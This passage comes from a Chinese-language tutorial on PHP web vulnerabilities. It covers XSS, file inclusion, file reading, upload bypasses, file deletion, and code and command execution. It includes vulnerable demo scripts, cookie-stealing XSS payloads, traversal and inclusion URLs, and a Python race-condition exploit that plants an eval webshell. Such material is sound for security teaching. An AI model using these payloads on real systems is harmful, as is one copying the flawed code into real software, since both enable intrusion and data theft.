storagexss.php(test on mysql 5.5.38)

```php
\\存储XSS演示
<form action="" method="post">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
$xss=@$_POST['xss'];
mysql_connect("localhost","root","root");
mysql_select_db("test");
if($xss!==null){
    $sql="insert into xss(id,payload) values(1,'$xss')";
    $result=mysql_query($sql);
    echo $result;
}
?>
```

storagexsshow.php(test on mysql 5.5.38)

```php
<?php
mysql_connect("localhost","root","root");
mysql_select_db("test");
$sql="select payload from xss";
$result=mysql_query($sql);
while($row=mysql_fetch_array($result)){
    echo $row['payload']; 
}
?>
```

storagexss.php post:`<img src=x onerror=alert(document.cookie)>`
访问storagexsshow.php会弹出cookie

恶意利用(以评论区存在存储型xss为例):假如某网站评论区存在xss存储行漏洞,攻击者在评论中插入获取cookie的代码,当每个用户看到此评论时,他们的cookie都会被发送到攻击者服务器。

#### DOM型

没有经过后端,只在前端触发。

数据流向是：URL-->浏览器 

eg:

domxss.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0); //禁用错误报告
$q = $_GET["q"];
?>
<form action="" method="get">
    <input type="text" name="q" id='text' value="<?php echo $q;?>" />
    <input type="submit" value="test"/>
</form>
<div id="print"></div>
<script type="text/javascript">
var text = document.getElementById("text"); 
var print = document.getElementById("print");
print.innerHTML = text.value + ' not found'; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
```

`http://127.0.0.1/domxss.php?q=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用和反射型xss类似

### 实例

以ESPCMS P8.18101601n 前台XSS为例，问题主要由于错误页面的报错信息未作过滤，造成XSS漏洞。

payload:`http://127.0.0.1/espcms/index.php?ac=%3C/code%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&at=List&tid=7`



### 防范

- 特殊字符HTML实体编码
- 标签黑白名单(推荐白名单,黑名单可能存在不可预测的绕过)
- 请求头设置HttpOnly属性(cookie不能通过js调用获取)



## 6. 文件操作漏洞

总的来说时因为没有经过严格的验证,操作的文件是否在允许的范围内。

危害:

- 导致恶意文件/代码包含
- 导致敏感文件被读取
- 导致文件被删除
- 导致恶意文件上传

### 分类

#### 文件包含

文件包含分为本地文件包含(local file include)、远程文件包含(remote file include)。文件包含可以导致恶意代码被包含,从而获取webshell

文件包含利用函数:

- include(即使文件被包含过,也会再次包含,包含文件遇到错误代码也会继续执行)
- include_once(文件被包含过了,就不会再次包含,包含文件遇到错误也会继续执行)
- require(即使文件被包含过,也会再次包含,包含文件遇到错误程序直接退出)
- require_once(文件被包含过了,就不会再次包含,包含文件遇到错误程序直接退出)
- ...

本地文件包含(LFI):

只能包含本机文件,大多出现在模块加载、模板加载和cache调用等地方。
本地文件包含方式也有多种,比如上传一个允许上传的文件格式的文件在包含,包含PHP上传的临时文件,webserver记录到日志后在包含webserver的日志,linux下可以包含/proc/self/environ文件等。

eg:
localfileinclude.php(test on php 5.5.38)

```php
<?php
define("ROOT",dirname(__FILE__).'/');
$mod = $_GET['mod'];
echo ROOT.$mod.'.php';
include(ROOT.$mod.'.php');
?>
```

lfishell.php

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/localfileinclude.php?mod=lfishell`

远程文件包含:

可以包含远程文件。需要设置allow_url_include=on。支持http、ftp、php伪协议、zip、file等协议。

eg:

remotefileinclude.php

```php
<?php
include($_GET['url']);
?>
```

使用python开启一个见到的服务器:
`python -m SimpleHTTPServer 8080`

rfi.txt

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/remotefileinclude.php?url=http://127.0.0.1:8080/Desktop/rfi.txt`

使用伪协议(举两个伪协议例子):

php://input

- allow_url_fopen：off/on
- allow_url_include：on
  `http://127.0.0.1/remotefileinclude.php?url=php://input`
  `post: <?php phpinfo();?>`

php://filter

- allow_url_fopen：off/on
- allow_url_include：off/on
  `http://127.0.0.1/remotefileinclude.php?url=php://filter/read=convert.base64-encode/resource=remotefileinclude.php`

截断包含:

00截断(受限于GPC和addslashes等函数影响,php5.3之后也不能使用这个方法,不过现在很少有这个漏洞了):

```php
<?php
include $_GET['a'].'.php';
?>
```

假如你发现了截断包含漏洞,然后又只能上传某些固定后缀的文件,那可以试下00截断

`http://127.0.0.1/truncatedinclude.php?a=aaa.txt%00`

多个`.`和`/`截断,不受GPC限制,但是在php5.3之后修复

#### 文件读取(下载)

程序在下载文件或者读取显示文件的时候,读取文件的参数直接在请求中传递,后台程序获取到这个文件后直接读取返回,问题在于这个参数是用户可控的,可以直接传入想要的文件路径。

文件读取或者下载函数:

- file_get_contents
- high_light
- fopen
- readfile
- fread
- ...

eg:



```php
<?php
$file = file_get_contents($_GET['file']);
echo $file;
?> 
```

`http://127.0.0.1/fileread.php?file=aaa.txt`

#### 文件上传漏洞

如果能把文件上传到管理员或者应用程序不想让你上传的目录,那么就存在文件上传漏洞。

一般的检测流程:

- 客户端javascript校验（一般只校验文件的扩展名）
- 服务端校验
  - 文件头content-type字段校验（image/gif）
  - 文件内容头校验（GIF89a）
  - 目录路经检测（检测跟Path参数相关的内容）
  - 文件扩展名检测 (检测跟文件 extension 相关的内容)
  - 后缀名黑名单校验
  - 后缀名白名单校验
  - 自定义正则校验
- WAF设备校验（根据不同的WAF产品而定）

利用函数:

- move_uploaded_file

##### 客户端校验

jsupload.php(test on php 5.5.38)

```php
<?php
//文件上传漏洞演示脚本之js验证
$uploaddir = 'uploads/';
if (isset($_POST['submit'])) {
    if (file_exists($uploaddir)) {
        if (move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . '/' . $_FILES['upfile']['name'])) {
            echo '文件上传成功，保存于：' . $uploaddir . $_FILES['upfile']['name'] . "\n";
        }
    } else {
        exit($uploaddir . '文件夹不存在,请手工创建！');
    }
    //print_r($_FILES);
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
    <title>文件上传漏洞演示脚本--JS验证实例</title>
    <script type="text/javascript">
        function checkFile() {
            var file = document.getElementsByName('upfile')[0].value;
            if (file == null || file == "") {
                alert("你还没有选择任何文件，不能上传!");
                return false;
            }
            //定义允许上传的文件类型
            var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
            //提取上传文件的类型
            var ext_name = file.substring(file.lastIndexOf("."));
            //alert(ext_name);
            //alert(ext_name + "|");
            //判断上传文件类型是否允许上传
            if (allow_ext.indexOf(ext_name + "|") == -1) {
                var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
                alert(errMsg);
                return false;
            }
        }
    </script>
<body>
<h3>文件上传漏洞演示脚本--JS验证实例</h3>


<form action="" method="post" enctype="multipart/form-data" name="upload" onsubmit="return checkFile()">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

`http://127.0.0.1/jsupload.php`

判断方式：
在浏览加载文件，但还未点击上传按钮时便弹出对话框，(进一步确定可以通过配置浏览器HTTP代理（没有流量经过代理就可以证明是客户端JavaScript检测））内容如：只允许传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

绕过方法：
将需要上传的恶意代码文件类型改为允许上传的类型，例如将shell.asp改为shell.jpg上传，配置Burp Suite代理进行抓包，然后再将文件名shell.jpg改为shell.asp
上传页面，审查元素，修改JavaScript检测函数（具体方法：可以使用firebug之类的插件把它禁掉）

##### 服务端检测

###### MIME类型检测

MIME的作用：使客户端软件，区分不同种类的数据，例如web浏览器就是通过MIME类型来判断文件是GIF图片，还是可打印的PostScript文件。web服务器使用MIME来说明发送数据的种类， web客户端使用MIME来说明希望接收到的数据种类。

eg:

```php
<?php
if($_FILES['file']['type'] != "image/jpg")
{
    echo "Sorry, we only allow uploading GIF images";
    exit;
}
$uploaddir = './uploads/';
$uploadfile = $uploaddir . basename($_FILES['file']['name']);
if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
{
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "File uploading failed.\n";
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

绕过方法:
配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型

###### 扩展名检测

黑名单检测:

```php
<?php
function getExt($filename){
    //sunstr - 返回字符串的子串
    //strripos — 计算指定字符串在目标字符串中最后一次出现的位置（不区分大小写）
    return substr($filename,strripos($filename,'.')+1);
}
if($_FILES["file"]["error"] > 0)
{
    echo "Error: " . $_FILES["file"]["error"] . "<br />";
}
else{
    $black_file = explode("|","php|jsp|asp");//允许上传的文件类型组
    $new_upload_file_ext = strtolower(getExt($_FILES["file"]["name"])); //取得被.隔开的最后字符串
    if(in_array($new_upload_file_ext,$black_file))
    {
        echo "文件不合法";
        die();
    }
    else{
        $filename = basename($_FILES['file']['name']).".".$new_upload_file_ext;
        if(move_uploaded_file($_FILES['file']['tmp_name'],"uploads/".$filename))
        {
            echo "Upload Success";
        }
    }
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

apache服务器可能做了配置不会解析特殊扩展名
使用其他服务器复现(我使用的nginx),上传php4扩展名绕过黑名单
`http://127.0.0.1/uploads/shell.php4`

白名单检测:
仅允许指定的文件类型上传，比如仅与需上传jpg | gif | doc等类型的文件，其他全部禁止

绕过方法：

- 文件名大小写绕过
  - 用像 AsP，pHp 之类的文件名绕过黑名单检测
- 名单列表绕过
  - 用黑名单里没有的名单进行攻击，比如黑名单里没有 asa 或 cer 之类
- 特殊文件名绕过
  - 比如发送的 http 包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式 在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改，然后绕过验证后，会被windows 系统自动去掉后面的点和空格，但要注意 Unix/Linux 系统没有这个特性
- 0x00截断
  - 文件名后缀就一个%00字节，可以截断某些函数对文件名的判断。在许多语言函数中处理函数中，处理字符串中(php版本需要小于5.3.4,magic_quotes_gpc=Off)

###### 文件内容检测

文件头检测:

- JPG: FF D8 FF E0 00 10 4A 46 49 46
- GIF: 47 49 46 38 39 61 (GIF89a)
- PNG: 89 50 4E 47
  绕过方法:
  添加头对应的文件头伪造

文件相关信息检测:

- 检查图片大小、尺寸等的信息。
  绕过方法:
  将代码注入到正常文件中(比如图片马:copy /b 1.jpg+2.php)

###### 竞争上传

当文件上传到服务器,先暂时保存,在检查是不是符合条件,如果不符合再删掉。
利用思路就是我们用多线程不断上传.php文件,在某个没有被删除的时刻如果访问到了.php文件,就生成一个shell,shell就会存到服务器。

eg:

competionupload.php(test on php 5.5.38)

```php
<?php
if ($_POST['submit']){
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";
    $filename = $_FILES['file']['name'];
    if(is_uploaded_file($_FILES['file']['tmp_name'])){
        if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
            die("error:can not move");
        }
    }else{
        die("error:not an upload file！");
    }
    $newfile = $path.$filename;
    echo "file upload success.file path is: ".$newfile."\n<br />";
    if($_FILES['file']['error']>0){
        unlink($newfile);
        die("Upload file error: ");
    }
    $ext = array_pop(explode(".",$_FILES['file']['name']));
    if(!in_array($ext,$allowtype)){
        unlink($newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
}
?>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="file"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

exp.py

```python
import os
import requests
import threading
import random
import string

exp_name = ''.join(random.sample(string.ascii_letters + string.digits,10))
shell_name = ''.join(random.sample(string.ascii_letters + string.digits,10))

# 按照自己的环境修改url
upload_url = 'http://127.0.0.1/competionupload.php'
exp_url = 'http://127.0.0.1/uploads/{}.php'.format(exp_name)
shell_url = 'http://127.0.0.1/uploads/{}.php'.format(shell_name)

exp_content = ('<?php fputs(fopen("{}.php", "w"), '
               '\'<?php @eval($_POST["qqq"]) ?>\'); ?>')
exp_content = exp_content.format(shell_name)

def upload():
    while True:
        print('[+] upload file...')
        data = {'submit':'上传'}
        files = {"file":('{}.php'.format(exp_name),exp_content)}
        resp = requests.post(upload_url,files=files,data=data)

def get():
    while True:
        print('[+] get shell file...')
        requests.get(exp_url)
        resp = requests.get(shell_url)
        if resp.status_code == 200:
            print('[*] create {}.php success'.format(shell_name))
            os._exit(0)

def main():
    threads = []

    try:
        # 线程数也可以自己修改,我这里只是开太多线程本地服务器扛不住
        for i in range(3):
            t = threading.Thread(target=get,args=())
            threads.append(t)
            t.start()

        for i in range(5):
            t = threading.Thread(target=upload,args=())
            threads.append(t)
            t.start()        

        for thread in threads:
            thread.join()
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

可以参考[上面讲了19种情景的bypass方法](http://www.lmxspace.com/2018/06/12/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Ewriteup/)

#### 文件删除

文件删除漏洞出现在有文件管理功能的应用上很多,这些应用一般都有文件上传和读取等功能。漏洞利用原理和文件读取差不多,只是利用函数不一样。一般是因为删除文件的文件名可以用../跳转,或者没有限制当前用户只能删除他该有权限删除的文件。php中这个漏洞函数通常是unlink()

eg:

```php
<?php
$basedir = './uploads/';
if(isset($_GET['action']) && $_GET['action'] == 'delete'){
    $filename = isset($_GET['filename'])?$_GET['filename']:'';
    if($filename){
        unlink($basedir.$filename);
    }
}
?>
```

`http://127.0.0.1/filedelete.php?action=delete&filename=../../../../../../../test.txt`

### 例子



### 防范

通用防范:

- 对权限管理要合理,比如用户A上传的文件,不能被同权限的B用户删除。特殊文件操作需要特权用户才能操作,比如后台删除文件的操作,肯定需要限制管理员才能操作。
- 有的文件操作不需要直接传入文件名,比如下载文件时,可以将文件名、路径、ID(MD5形式)及文件上传用户存入数据库中,操作时根据文件ID和当前用户名去判断当前用户有没有权限操作改文件。
- 避免目录跳转。禁止`..`、`/`、`\`来跳转目录

## 7. 代码执行

代码执行漏洞指应用程序本身过滤不严,用户可以通过请求将代码注入到应用中执行。这种漏洞如果没有进行特殊过滤,相当于一个web后门的存在。

php中导致该漏洞的函数:

- eval
- assert
- preg_replace
- call_user_func
- call_user_func_array
- array_map
- php动态函数($a($b))
- ...

eval()和assert()函数导致的代码执行漏洞大多数是因为载入缓存或者模板以及对变量的处理不严格导致,比如直接把一个外部可控的参数拼接到模板里面，然后调用这两个函数去当成php代码执行。

eg:

```php
<?php
function action_a(){
    echo 'call action_a method';
}
function action_b(){
    echo 'call action_b method';
}
$a = $_GET['m'];
eval('action_'.$a.'();');
?>
```

`http://127.0.0.1/codexec_eval.php?m=b`

`http://127.0.0.1/codexec_eval.php?m=b();phpinfo();//`



preg_replace()函数(__php5.5之前可用__)导致代码执行需要存在`/e`参数，这个函数原本是用来处理字符串的，因此漏洞出现最多的是在对字符串的处理，比如URL、HTML标签及文章内容过滤等地方。

eg:

```php
<?php
$html_body = '<a {${phpinfo()}}></a>';
var_dump(preg_replace("#(</?)(\w+)([^>]*>)#e",
              '"\\1".strtoupper("\\2")."\\3"',$html_body));
?>
```

`http://127.0.0.1/codexec_preg.php`



由于php特性的原因，php函数可以直接由字符串拼接，导致动态执行函数。

eg:

```php
<?php
$_GET['a']($_GET['b']);
?>
```

`http://127.0.0.1/codexec_dynfunc.php?a=assert&b=phpinfo()`

还有其他函数，可以自行查阅



### 例子



### 防范



实际环境中可以结合正则表达式使用白名单对参数过滤



## 8. 命令执行



代码执行是指可以执行代码，命令执行是可以执行系统命令(比如CMD或者BASH命令)。php命令执行是继承webserver用户权限。

php命令执行函数:

- system
- exec
- shell_exec
- passthru
- pcntl_exec
- popen
- proc_popen
- \`



eg:

```php
<?php
system('whoami');
popen('whoami >> ./aaa.txt','r');
echo `whoami`;
?>
```



### 例子



### 防范



- 使用escapeshellcmd、escapeshellarg防止命令注入
- 参数白名单